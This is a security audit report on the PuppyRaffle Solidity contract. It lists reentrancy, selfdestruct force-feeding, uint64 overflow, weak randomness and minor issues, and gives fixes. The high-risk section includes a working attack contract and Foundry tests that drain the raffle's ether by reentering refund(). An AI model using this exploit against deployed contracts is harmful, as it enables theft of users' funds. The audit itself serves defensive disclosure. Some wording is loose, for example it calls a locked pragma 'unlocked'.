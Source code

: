 ## Summary

The PuppyRaffle.sol contract has undergone a comprehensive security audit, revealing a total of 10 vulnerabilities. These vulnerabilities have been classified into different severity levels to provide a more detailed understanding of their impact.

High Severity Issues (2): These are critical vulnerabilities that demand immediate attention. Addressing these problems is vital to ensuring the contract's security and integrity.

Medium Severity Findings (2): While not as severe as the high-risk issues, these findings still pose a substantial level of risk and should be prioritized for resolution.

Low Risk and Non-Critical Findings (6): These issues are relatively less critical but are worth addressing to maintain robust security practices and prevent potential future vulnerabilities.

This detailed breakdown of vulnerabilities allows a better assessment of the contract's overall security posture. It emphasizes the importance of addressing high and medium-risk issues promptly while also considering the low-risk findings to enhance the contract's long-term security and stability.

## Vulnerability Details

### High-Risk Issues

1. Reentrancy: The function refund() is prone to reentrancy attack. The Function didn't conform to the Check->Effect->Interaction rule, this action can lead to a reentracy attack. The state variable of players[playerIndex] = address(0), will be updated after the ether has been refunded. An attacker can reenter this function.
   The Proof of concept is below.

### POC

**Contract**

    // SPDX-License-Identifier: SEE LICENSE IN LICENSE
    pragma solidity 0.7.6;
    import "../src/PuppyRaffle.sol";

    contract AttackRaffle {
    PuppyRaffle immutable puppyraffle;

        address public immutable owner;
        uint256 myIndex;

        constructor(address _contractAddress) {
            owner = payable(msg.sender);
            puppyraffle = PuppyRaffle(_contractAddress);
        }

        function destroy(address _puppyContract) external {
            selfdestruct(payable(_puppyContract));
        }

        function playGame(uint256 entranceFee) external payable {
            // start by playing the game.
            address[] memory players = new address[](1);
            players[0] = address(this);
            puppyraffle.enterRaffle{value: entranceFee}(players);

            // then the main attack which is the refund function.
            myIndex = puppyraffle.getActivePlayerIndex(address(this));
            puppyraffle.refund(myIndex);
        }

        receive() external payable {
            if (address(puppyraffle).balance > 0) {
                myIndex = puppyraffle.getActivePlayerIndex(address(this));
                puppyraffle.refund(myIndex);
            } else {
                (bool success, ) = (owner).call{value: address(this).balance}("");
                if (!success) revert("Failed Transaction");
            }
        }
    }

**Test**

    function test_reenterancy_attack() external {
        // function that allow players enter the game
        testCanEnterRaffleMany();

        // The attack
        address owner = address(23);
        vm.prank(owner);
        attackRaffle = new AttackRaffle(address(puppyRaffle));
        vm.deal(address(attackRaffle), 1 ether);
        console.log(
            "Owner of the Attack Contract balance before the game",
            owner.balance
        );
        console.log(
            "puppyRaffle Contract's balance before contract entered the game",
            address(puppyRaffle).balance
        );
        vm.startPrank(address(attackRaffle));
        attackRaffle.playGame(entranceFee);
        console.log(
            "Owner of the Attack Contract balance after the game",
            attackRaffle.owner().balance
        );

        console.log(
            "puppyRaffle Contract's balance after the game",
            address(puppyRaffle).balance
        );
        vm.stopPrank();
    }

2. The use of strict operator: The function withdrawFees has a strict operation of ==, which can lead to a high vulnerability, when an addition wei or ether is sent to this contract, address(this).balance can never be equal to totalFees. Ether can not be withdrew to the feeAddress.

### POC

**Contract**

        function destroy(address \_puppyContract) external {
            selfdestruct(payable(\_puppyContract));
        }

This is a snippet from the above contract AttactPuppyRaffle.

**Test**

    function test_withdraw_attack() external {
        // function that select winner
        testSelectWinner();

        // The attack
        attackRaffle = new AttackRaffle(address(puppyRaffle));
        vm.deal(address(attackRaffle), 1 wei);
        vm.startPrank(address(attackRaffle));
        attackRaffle.destroy(address(puppyRaffle));

        puppyRaffle.withdrawFees();
        vm.stopPrank();
    }

**NOTE** All the test functions can be added to the PuppyRaffleTest file because testSelectWinner() and testCanEnterRaffleMany() are functions from the file.

### Medium Issue

1. In the function selectWinner(), If at any point in the raffle, the total fee exceeds 18.45 ether there will be an overflow and the totalfee will not be represented well. Why? Because the totalFee was stored with uint64 and the max for uint64 is 18,446,744,073,709,551,615.
2. The winner is deterministic. The use of msg.sender, block.timestamp, block.difficulty and player. length is very predictable especially to the miner.

### Low Issue

1. The was no check for zero address in the contructor, the feeAddress can be deployed with address(0), though it can be changed but it is not best practise.
2. The use of custom errors is the most optimal way for calling error.
3. The was no proper check on the array length on enterRaffle(), this could lead to a DOS attack on the system. The address were not also check if address(0) will be mistakenly included.
4. Unlocked pragma (for e.g. by not using ^ in pragma solidity 0.7.6) can lead the contract to accidentally get deployed using an older compiler version with unfixed bugs
5. Lastly, in gas optimization, it is better to save the length of the array before looping, this helps save gas.

## Impact

1. Reenterancy can lead to loss of the ether in the contract.
2. Strict operators can also lead to loss of ether from the contract.
3. In the function selectWinner() if at any point in the raffle the totalfee exeeds 18.45 ether there will be overflow, loss of funds.
4. The winner to the easy predictable or deterministic undermines the transparency and accountability of the contract
5. Zero checks on address can lead to loss of funds
6. The no proper check on the array length on enterRaffle() can lead to a DOS attack

## Tools Used

Manual Audit

## Recommendations

1. For the reenterancy, it is best practice to always apply the check->effect->interaction.
2. Also make use of a reenterancy lock or modifier to help secure the contract, Openzeppline offers good reenterncy guide.
3. Avoid the use of strict operators
4. Proper address Check
5. Instead of uint64 for the totalFee it is best you use uint256
6. It best to use a more secure and reliably random selection, Chainlink offers a good service on that.
7. The Contract should be deployed using the same compiler version/flags with which they have been tested. Locking the pragma (for e.g. by not using ^ in pragma solidity 0.7.6) ensures that contract do not accidentally get deployed using an older compiler version with unfixed bugs.
